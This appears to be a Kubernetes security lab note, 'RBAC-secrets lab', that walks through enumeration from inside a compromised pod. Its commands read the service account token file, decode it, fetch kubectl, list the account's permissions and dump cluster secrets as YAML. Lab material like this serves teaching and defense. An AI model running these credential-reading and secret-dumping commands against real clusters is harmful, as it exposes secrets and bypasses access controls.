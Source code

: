 # RBAC-secrets lab
- Can we access secrets?
```bash
# Check shell
echo $SHELL
# or
cat /etc/shells

PS1='\[\e[31m\]\u\[\e[96m\]@\[\e[35m\]\H\[\e[0m\]:\[\e[93m\]\w\[\e[0m\]\$ '

echo "Useful tools:"; missing=""; for i in kubectl hostname perl python python3 dpkg bash sh yq jq nmap curl wget ping apt apk openssl nc netcat sed vim vi nano base64 tar; do command -v "$i" >/dev/null 2>&1 && echo "$i" || missing="$missing $i"; done; if [ -n "$missing" ]; then echo  "Missing tools: $(echo "$missing" | sort)"; fi

apt update && apt install jq curl -y

TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)  ; jq -R 'split(".") | .[1] | @base64d | fromjson' <<< $TOKEN
```
-  Note we don't have kubectl. We can communicate directly with the API server, but thats a bit more involved.
```bash
LOS_KUBE_VERSION="v1.30.0" ; curl -LO https://dl.k8s.io/release/$LOS_KUBE_VERSION/bin/linux/amd64/kubectl && chmod +x kubectl && mv ./kubectl /usr/bin/ ; kubectl version

kubectl get pods # nope

kubectl auth can-i --list

# Discuss the difference between get/list
kubectl get secrets 

kubectl get secrets -o yaml | grep -A1 "  data:"
```

